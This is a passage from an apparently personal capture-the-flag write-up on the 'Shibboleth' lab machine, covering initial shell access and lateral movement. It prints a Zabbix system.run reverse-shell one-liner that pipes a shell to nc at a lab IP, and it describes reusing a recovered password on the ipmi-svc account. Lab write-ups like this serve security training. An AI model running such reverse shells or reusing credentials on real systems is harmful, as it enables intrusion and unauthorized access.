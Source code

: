 ![](assets/Shibboleth_assets/Pasted%20image%2020231201081534.png)

the reverse shell  command executed by the payload

```
system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.3 4444  >/tmp/f,nowait]
```

- then we get a shell in our netcat listener
![](assets/Shibboleth_assets/Pasted%20image%2020231201082200.png)

## Lateral Movement

- we now have access in a restricted shell
- if we view our /etc/passwd file we'll see a user ipmi-svc, why dont we try the password (ilovepumkinpie1) we got on that account??
- if we do that, we now have access as the ipmi-svc user

![](assets/Shibboleth_assets/Pasted%20image%2020231201082240.png)
